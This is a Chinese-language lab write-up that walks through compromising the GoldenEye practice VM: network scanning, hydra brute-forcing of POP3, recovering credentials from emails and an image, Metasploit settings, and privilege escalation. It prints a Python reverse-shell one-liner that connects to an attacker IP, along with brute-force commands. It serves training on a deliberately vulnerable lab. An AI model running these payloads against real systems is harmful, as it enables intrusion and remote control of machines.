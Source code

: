 

# 记一次对GoldenEye的渗透 - 先知社区

记一次对GoldenEye的渗透

- - -

# 一、信息收集

1.arp-scan-l 收集目标ip

[![](assets/1704771507-055e683ab9349c2edfa8484f466d8c76.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175146-8965e478-ae0b-1.png)

2.使用命令：nmap -sP 192.168.182.0/24

[![](assets/1704771507-8b73989f9bdca4031f7f76aef016caa7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175200-917fa932-ae0b-1.png)

3.使用命令：nmap -sS -sV -T5 -A -p- 192.168.182.141

[![](assets/1704771507-5a17a79e76d2c0139c5ba7db81c7cc26.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175217-9b9990d6-ae0b-1.png)

4.到/sev-home/目录中。

[![](assets/1704771507-647eae4205115c9a2c11e9e026d26929.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175226-a0ec640a-ae0b-1.png)

5.检查主页的html内容以获取任何有用的提示（F12查看）

[![](assets/1704771507-07d138e39ef124fe5305db0e258f4d51.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175240-a9709d1c-ae0b-1.png)

6.发现了一个用户名和密码，然后发现了一个编码加密

[![](assets/1704771507-265add94a5e77bdf460b66726049126c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175251-b0217618-ae0b-1.png)

7，使用burp解密模块解密。

[![](assets/1704771507-b39249d9991ff1042ab20fcbd727dcd9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175301-b5b52070-ae0b-1.png)

8.然后登录  
Natalya  
Boris

Natalya  
InvincibleHack3r

[![](assets/1704771507-a6f8bf0d906708b9770ce8f044ab87a5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175321-c1fb59ee-ae0b-1.png)

9.然后使用f12查看，发现了pop3服务。POP3服务器的端口：55006、55007。

[![](assets/1704771507-1973f7b7589a4710c4743c77990f1298.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175332-c8810e76-ae0b-1.png)

10.浏览器上访问发现是55007端口。

[![](assets/1704771507-583f7badf5ff92dc5392b9292100f8f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175402-da3d0dea-ae0b-1.png)

11.开始生成字典，开始爆破密码。  
hydra -L t1t.txt -P /usr/share/wordlists/fasttrack.txt 192.168.182.141 -s 55007 pop3

[![](assets/1704771507-5ca81254204413e0c009d3b39be7c1d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175412-e041ce9c-ae0b-1.png)

12.开始使用nc连接，用户：boris 密码：secret1! 用户：natalya 密码：bird  
然后开始读邮件

[![](assets/1704771507-e0f1aafd8206b547ef8456e77d55c514.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175423-e687a3c6-ae0b-1.png)

13.使用，用户：natalya 密码：bird，开始都邮件。

[![](assets/1704771507-a9d9eaa4af2cdabfba02feb5a7f835d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175432-ec2086d6-ae0b-1.png)

[![](assets/1704771507-07ac9ae91aa960f6e115c4794790f9ec.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175442-f1d5fff2-ae0b-1.png)

14.找到了敏感信息泄露

[![](assets/1704771507-32a2ab688ad13ab9067d1739f4ea3d6a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175452-f816acea-ae0b-1.png)

15.进入/etc/hosts目录，加入severnaya-station.com

```plain
用户名：xenia
密码：RCP90rulez!
域：severnaya-station.com
网址：severnaya-station.com/gnocertdir
```

我们现根据邮件提示添加本地域名：severnaya-station.com

[![](assets/1704771507-b4ffbc8044a2a22f21e204d42df61c68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175509-0259b59e-ae0c-1.png)

16.本地访问。

[![](assets/1704771507-bdf156b11b93fb10a9bba6422d4cf157.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175520-08c40a1a-ae0c-1.png)

17登录之后，发现一个doak用户

[![](assets/1704771507-bb892f633d160d3f5d1ccfefbe73efa9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175529-0e38b194-ae0c-1.png)

18.加入字典

[![](assets/1704771507-99eef4ae39b014327e231fe4c252d88c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175538-1368f52a-ae0c-1.png)

19.开始爆破

成功登录  
[![](assets/1704771507-1811290d5ec90d596aa40e9b57c4f34b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108175552-1bed7f04-ae0c-1.png)  
username: dr\_doak  
password: 4England!  
[![](assets/1704771507-c9c999438defa302c21b3ac0288df74c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181154-5944d3c8-ae0e-1.png)  
登录之后，发现有一个图片

[![](assets/1704771507-cdc97642fb84e067f661f7970e732d9b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181257-7eac8f8e-ae0e-1.png)

[![](assets/1704771507-c9431682be562b7e39d6a68a07254b8d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181136-4eb1aac6-ae0e-1.png)

然后下载到本地。  
[![](assets/1704771507-c2b06bba9541e54d0df70e64f6e170df.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181308-856720a0-ae0e-1.png)  
进行图片检查  
[![](assets/1704771507-859a535a70c5e71da4b565e037394b2b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181409-a98d7d3a-ae0e-1.png)  
发现存在base64加密的编码  
[![](assets/1704771507-cf492e7817234abf632b6b1b4363cd1c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181423-b1d375a8-ae0e-1.png)  
解密之后，成功获得管理员用户密码.  
xWinter1995x!

## 二、漏洞利用

[![](assets/1704771507-f3660d7e8f5ccb0b4d7409d49834033f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181431-b6c068d2-ae0e-1.png)  
接着使用账号密码进行登录。发现其框架和版本。  
[![](assets/1704771507-297ff779173892fff4f1dc6d0ab22c0d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181521-d4550470-ae0e-1.png)  
使用google搜索历史漏洞  
[![](assets/1704771507-8081dd31a9f648b5668bb7e729779b17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181528-d89267e4-ae0e-1.png)  
使用msf进行搜索exp  
[![](assets/1704771507-e86ad592781246b7700d8ef4815d993a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181555-e8b2c240-ae0e-1.png)  
设置payload

设置用户名：admin  
设置密码：xWinter1995x！  
xWinter1995x！  
设置：rhosts severnaya-station.com  
设置：targeturi / gnocertdir  
设置payload：cmd / unix / reverse  
设置：lhost 192.168.1.45  
[![](assets/1704771507-ba5e1a5eb4c404e8f171b8481838415c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181603-edf1d020-ae0e-1.png)  
利用之后，没有成功。接着发现有上传漏洞  
更改编辑器模式为googlshhell  
[![](assets/1704771507-b84327b46c19705f8e5f705587f26c64.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181614-f4596ef0-ae0e-1.png)  
添加反弹shell的payload

[![](assets/1704771507-db9d8d6615074175dc8f8133284472b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181623-f975ed00-ae0e-1.png)

```plain
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.119.128”,6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

然后新建一个邮件，来触发漏洞  
[![](assets/1704771507-ad56b585ba64b3dc4a1e9d92c8df75e4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181632-fea84ab6-ae0e-1.png)

成功反弹shell。  
[![](assets/1704771507-c798c26dd820b948e708b16bd5325345.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181644-063050da-ae0f-1.png)

## 三、权限提升

接着使用uname -a 来查看linux版本  
使用msf搜索可利用的exp  
[![](assets/1704771507-557b54c49adb8c1381af849005791e03.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181651-0a745a60-ae0f-1.png)  
下载到本地  
[![](assets/1704771507-f1ae4efcdf98831a32ee4d096d016a13.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181659-0f0d65bc-ae0f-1.png)  
将exp上传到远程服务器  
[![](assets/1704771507-2c8bbdc46b08c0bf90be3e4892e2142a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181709-14f41b4c-ae0f-1.png)  
[![](assets/1704771507-beee8052b5c4aaf811c93c0c3c5ac4a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181716-191439a0-ae0f-1.png)  
使用cc进行编译脚本  
[![](assets/1704771507-032262515745ce69993c7b4bdcf282bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181723-1d246222-ae0f-1.png)  
开启http监听  
[![](assets/1704771507-8c8a228d13f8d07a9dec7eb197fe59fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181729-20d50142-ae0f-1.png)  
添加执行权限并执行exp脚本  
[![](assets/1704771507-87e3875ae361d765796cd8df94c841e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181736-2550843a-ae0f-1.png)  
成功获取root文件  
[![](assets/1704771507-dd55d15f5ea4a06d1e0f5c057bd4f9f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240108181744-29f0614a-ae0f-1.png)

